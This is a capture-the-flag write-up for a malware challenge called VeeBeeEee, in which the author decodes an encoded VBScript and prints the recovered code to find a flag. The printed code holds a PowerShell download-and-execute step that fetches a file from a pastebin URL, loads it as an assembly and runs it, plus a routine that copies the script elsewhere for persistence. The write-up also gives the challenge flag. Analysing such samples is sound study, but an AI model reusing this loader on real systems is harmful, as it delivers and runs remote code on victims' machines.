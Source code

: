 # VeeBeeEee (malware, 764 solves, 50 points)

## Introduction

<p align="left">
  <img height=700 img src=./readme_assets/vb-challenge.PNG/>
</p>

## Solution

The file has no extension. Opened in mousepad and see the file is partially `UTF-8` and partially `ANSI_X3.4-1986`.

<p align="left">
  <img height=300 img src=./readme_assets/vb-text.PNG/>
</p>

I used [Cyberchef](https://gchq.github.io/CyberChef/) to decode the text using `Microsoft Script Decoder`.

<p align="left">
  <img height=300 img src=./readme_assets/vb-decode.PNG/>
</p>

Remove all of the excess stuff from the file and it looks like normal code. Follow the logic of the code and you get:

```
powershell $f='C:\Users\Public\Documents\July.htm';

if (!(Test-Path $f)){Invoke-WebRequest https://pastebin.com/raw/SiYGwwcz' -outfile $f  };

PathString = SObject.NameSpace(7).Self.Path  "/"  WScript.ScriptName
[System.Reflection.Assembly]::loadfile($f);
[WorkArea.Work]::Exe()

Sub CollectThenReplace(First, Second , Third , Fourth , Fifth)
Temp = First + Second + Third + Fourth + Fifth
Code = Replace(Temp , "" , "" )
End Sub

Return = Object.Run(Code, 0, true)

WScript.Sleep(50000)
For i = 1 To 5
if i = 5 Then
Paste(SPath)
End if
Next
Sub Paste(RT)
FObject.CopyFile RT,PathString
End Sub
```
Paste the url `https://pastebin.com/raw/SiYGwwcz'` from the code into a browser to get the flag.

## Flag

**`flag{ed81d24958127a2adccfb343012cebff}`**

## Tools

- `mousepad`
- [Cyberchef](https://gchq.github.io/CyberChef/)
